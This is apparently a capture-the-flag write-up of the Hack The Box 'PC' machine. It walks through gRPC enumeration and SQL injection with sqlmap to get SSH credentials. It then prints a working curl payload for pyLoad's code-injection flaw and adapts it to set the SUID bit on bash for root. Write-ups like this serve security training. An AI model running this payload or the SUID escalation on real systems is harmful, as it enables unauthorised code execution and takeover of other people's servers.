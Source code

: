 ```yaml
---
title: "Hack The Box - PC [Easy]"
date: 2023-05-26T02:01:27+03:00
draft: true
tags: ["hackthebox"]
---
```


This machine has only 2 ports open:

```
$ nmap 10.10.11.214 -Pn -p-
22/tcp    open  ssh
50051/tcp open  unknown
```

Using telnet to see what is `50051`, we get:

```
telnet 10.10.11.214 50051
Trying 10.10.11.214...
Connected to 10.10.11.214.
Escape character is '^]'.
?�?� �?^CConnection closed by foreign host.
```
 
Which is some random binary data. I've explored it with `hexdump`.

```
0000000 0000 0418 0000 0000 0000 0004 ff3f 00ff
0000010 0005 ff3f 00ff 0006 2000 fe00 0003 0000
0000020 0001 0400 0008 0000 0000 3f00 0000
000002e
```

I didn't figure out what it was, so I googled the port which led me to this question: https://stackoverflow.com/questions/55990378/i-tried-to-deploy-grpc-go-server-in-docker-and-expose-port-in-local-port-but-p 

I've figured out that this is some `rpc` server. Using `grpcui` we can see the following app structure.

```
$ grpcui -plaintext 10.10.11.214:50051
--- 

SimpleApp.LoginUser {
    username string
    password string
}
SimpleApp.RegisterUser {
    username string
    password string
}
SimpleApp.getInfo {
    id string
}

```

I've used `admin:admin` to login, and I got a token and a data:

```json
{
  "message": "Your id is 80."
}

// token	b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxODM0MDh9.Hpp12rEGhXQONEN2yi65_NCuMQNN5fnvtJbFhI_PEZk'
```

I've used the `Request Metadata` to send the token when calling the getInfo procedure. 

```
Meta:
token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxODM0MDh9.Hpp12rEGhXQONEN2yi65_NCuMQNN5fnvtJbFhI_PEZk

Data:
id: 80
```

This got me:

```
{
  "message": "Will update soon."
}
```

I have no idea what is happening at this point, and I decided to run `sqlmap` on those requests.

To do that I had to capture the request that is going to the server, I can proxy the UI's requests towards the RPC with `burp`. Start `burp` and intercept the gRPC Web UI and capture the request towards the server. Then save the request to `getInfo` into a file.

Using `sqlmap -r request_file --batch` we can dump the credentials for the user and login with the `ssh`.

Now the root is a bit tricky, I've noticed some processes that are running on port 8000 using `linpeas`. This port is inaccessible, so I had to forward the port to my host using ssh.

```
$ ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Now I can access it, and it turns out to be pyLoad, searching around I saw this:

https://github.com/advisories/GHSA-pf38-5p22-x6h6
https://github.com/pyload/pyload/commit/7d73ba7919e594d783b3411d7ddb87885aea782d
https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/

Where I can see the following payload

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

Decoding the payload on the `jk` param: `pyimport os;os.system("touch /tmp/pwnd");f=function f2(){};`

Now we just have to encode `chmod +s /bin/bash` into `os.system()`. After executing that payload, we can launch bash in privilege mode `bash -p` and I got root.
